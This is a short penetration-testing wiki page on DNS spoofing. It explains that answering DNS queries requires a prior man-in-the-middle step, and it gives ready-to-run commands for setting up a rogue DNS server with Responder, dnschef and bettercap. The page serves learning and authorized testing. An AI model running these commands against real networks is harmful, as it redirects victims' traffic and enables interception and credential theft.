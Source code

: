# DNS spoofing

## Theory

DNS is not multicast or broadcast like [LLMNR, NBT-NS or mDNS](llmnr-nbtns-mdns-spoofing.md). In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md). DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

## Practice

{% tabs %}
{% tab title="Responder" %}
[Responder](https://github.com/SpiderLabs/Responder)'s (Python) DNS server feature can be used to answer DNS queries.

```bash
responder --interface eth0 
```
{% endtab %}

{% tab title="dnschef" %}
[dnschef](https://github.com/iphelix/dnschef) (Python) can be used as a DNS server.&#x20;

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```
{% endtab %}

{% tab title="bettercap" %}
In order to spoof DNS requests, [bettercap](https://www.bettercap.org) (Go) can be used. This tool can also be used for the first step of [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md).&#x20;

```bash
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/" %}
